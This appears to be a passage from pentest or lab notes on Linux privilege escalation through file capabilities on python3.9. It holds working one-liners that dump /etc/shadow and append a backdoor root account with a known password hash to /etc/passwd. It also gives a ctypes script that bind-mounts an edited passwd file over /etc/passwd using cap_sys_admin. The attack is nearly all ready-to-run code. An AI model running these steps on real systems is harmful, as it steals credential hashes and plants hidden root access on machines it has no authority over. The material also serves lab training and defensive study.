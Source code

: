 
**Reading the `/etc/shadow` File**

```bash
/usr/bin/python3.9 -c 'print(open("/etc/shadow").read())'
python3 -c 'print(open("/etc/shadow").read())'
```

**Modifying `/etc/passwd` to Escalate Privileges**

Appending a new root user entry to `/etc/passwd`:

```bash
/usr/bin/python3.9 -c 'open("/etc/passwd", "a").write("root2:$1$RBQLuaaV$4Dqrii/GXbnYm5TGVw96y.:0:0:root:/root:/bin/bash\n")'
```

This effectively adds a new root user (`root2`) with a known password hash.




## cap_sys_admin

#### Misconfiguring

```bash
setcap cap_sys_admin+ep /usr/bin/python3.9
```


#### Exploiting

we can't directly update the password in the **/etc/passwd** file, but I can perform a bind mount. Copy the /etc/passwd file to the current working directory (/home/armour) and make the changes in the root user password.

```bash
cd /home/armour
```

```bash
cp /etc/passwd .
```

```bash
vim passwd
```

```bash
root8:$1$RBQLuaaV$4Dqrii/GXbnYm5TGVw96y.:0:0:root:/root:/bin/bash
```


```bash
vim exploit.py
```




- exploit.py
	- according to normal user
```python title:exploit.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/home/armour/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```
